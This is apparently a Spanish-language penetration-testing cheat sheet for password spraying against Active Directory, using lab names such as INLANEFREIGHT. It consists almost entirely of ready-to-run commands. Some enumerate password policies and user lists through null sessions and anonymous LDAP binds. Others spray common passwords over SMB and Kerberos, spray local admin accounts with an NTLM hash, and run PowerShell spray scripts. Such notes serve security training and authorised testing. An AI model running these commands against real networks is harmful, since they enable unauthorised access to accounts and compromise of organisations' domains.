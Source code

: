 #passwordSpraying
## Linux
### Enumerar política de contraseñas

- **`nxc` (SMB - 445):**
	```bash
	# Requiere credenciales
	nxc smb $target -u $username -p $password --pass-pol
	```

- **`rpcclient` (SMB - 445, 139):**
	```bash
	rpcclient -U 'username%password' $target
	# o null session
	rpcclient -U "" -N $target
	# Una vez dentro, podemos obtener informacíon básica del dominio con
	rpcclient $> querydominfo
	# Obtener política de contraseñas
	rpcclient $> getdompwinfo
	```

- `enum4linux` (SMB - 445, 139):
	```bash
	enum4linux -P $target
	```
	`-P` : password police
- **enum4linux-ng (SMB - 445, 139):**
	```bash
	# Con credenciales
	enum4linux-ng -P $target -u $username -p $password -oA ilfreight
	# Null session
	enum4linux-ng -P $target -oA ilfreight
	```

- **ldapsearch (LDAP - 389, 636):**
	```bash
	# Con credenciales
	ldapsearch -h $target -D "CN=username,DC=INLANEFREIGHT,DC=LOCAL" -w 'password' -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
	# Anonymous bind
	ldapsearch -h $target -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
	```

### Crear User List

- **`enum4linux` (SMB - 445, 139):**
	```bash
	# Sin credenciales
	enum4linux -U $target | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
	# Con credenciales
	enum4linux -U -u <user> -p <pass> $target | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
	```

- **`rpcclient`:**
	```bash
	# sin credenciales
	rpcclient -U "" -N 172.16.5.5
	# Con credenciales
	rpcclient -U "username" 172.16.5.5
	# Una vez en sesión
	rpcclient $> enumdomusers
	```

- **`nxc` SMB ( `--users`):**
	```bash
	nxc smb $target -u <username> -p <password> --users
	```
	La flag `--users` nos indica el número de intentos fallidos y fecha de último intento fallido
- **`ldapsearch` ( Anonymous Bind):**
	```bash
	ldapsearch -h $target -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
	```

- **`windapsearch`:**
	```bash
	./windapsearch.py --dc-ip $target -u "" -U
	```

- **`Kerbrute`:**
	```bash
	kerbrute userenum -d inlanefreight.local --dc $target /opt/jsmith.txt
	# otra lista interesante: /usr/share/wordlists/dirb/others/names.txt
	```

### Ejecutar Password Spraying
- **One-liner bash (SMB - 445, 139):**
	```bash
	for u in $(cat valid_users.txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" $target | grep Authority; done
	```

- **Kerbrute (Kerberos - 88):**
	```bash
	kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
	```

- **nxc (SMB):**
	```bash
	sudo nxc smb $target -u valid_users.txt -p Password123 --continue-on-success | grep +
	# Valorar añadir --local-auth
	```

- **Local Admin Spraying:**
	```bash
	sudo nxc smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
	```
	
## Windows
### Enumerar política de contraseñas
- **Null Sessions (net use - 445, 139):**
	El siguiente comando muestra si acepta null sessions
	```
	net use \\DC01\ipc$ "" /u:""
	```
- **net.exe:**
	```powershell
	net accounts
	```
	Si  obtenemos el siguiente valor `Lockout threshold: Never` significa que podemos ejecutar fuerza bruta sin problema. 

- **Powerview:**
	```powershell
	import-module .\PowerView.ps1
	Get-DomainPolicy
	```

### Ejecutar Password Spraying
- Spray-Passwords.ps1
	```powershell
	# Ejecuta password spraying contra todas las cuentas del dominio
	.\Spray-Passwords.ps1 -Pass Nexus123!
	# Ejecuta password spraying contra todas las cuentas con permisos administrativos
	.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
	```
- **DomainPasswordSpray (Windows AD):**
	```powershell
	Import-Module .\DomainPasswordSpray.ps1
	Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
	```
